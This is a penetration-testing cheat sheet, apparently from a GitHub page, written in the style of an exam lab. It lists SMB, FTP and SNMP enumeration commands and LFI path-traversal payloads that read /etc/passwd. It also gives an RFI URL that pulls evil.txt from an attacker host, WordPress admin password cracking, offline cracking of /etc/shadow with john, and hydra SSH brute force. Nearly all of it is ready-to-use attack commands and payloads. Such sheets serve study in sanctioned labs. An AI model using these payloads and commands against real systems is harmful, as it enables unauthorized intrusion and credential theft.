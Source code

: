 ### enum4linux
* Windows and Samba systems
```
$ enum4linux -U -o ip
```
### smbclient
* discover directory and os, smb version
```
$ smbclient -L \\DNSname -I ip -N
```
* log in smb server
```
$ smbclient //DNSname/wwwroot -I ip -N
```
### ftp
* try to login as anonymous
```
user: anonymous
pass: anonymous
```
### snmpwalker
```
$ snmpwalk ip -c public -v 2c > result.txt
```
## Web application
### LFI
* ../../../../../etc/passwd%00
* ..%01/..%01/..%01/..%01/..%01/etc/passwd
* ../../../../../etc/passwd%23
%23 equal to MySQL query '?'
* ../../../../../../../../../etc/passwd/././././././.[…]/./././././.
* ../../../../../../../../../boot.ini/………[…]…………
* ../ -> %2e%2e%2f
### RFI
* http://10.11.1.35/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.5/evil.txt
### WordPress
#### wpscan
* find vulnerable
```
$ wpscan -u host
```
#### wpforce
* crack admin's password
```
$ python wpforce.py -si admin -w password-file.txt -u host
```
## Password Crack
### john
first obtain /etc/shadow and /etc/passwd, then
```
$ unshadow passwd.txt shadow.txt > hash.txt
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
### hydra
```
$ hydra -l root -P password-file.txt 10.11.1.219 ssh
```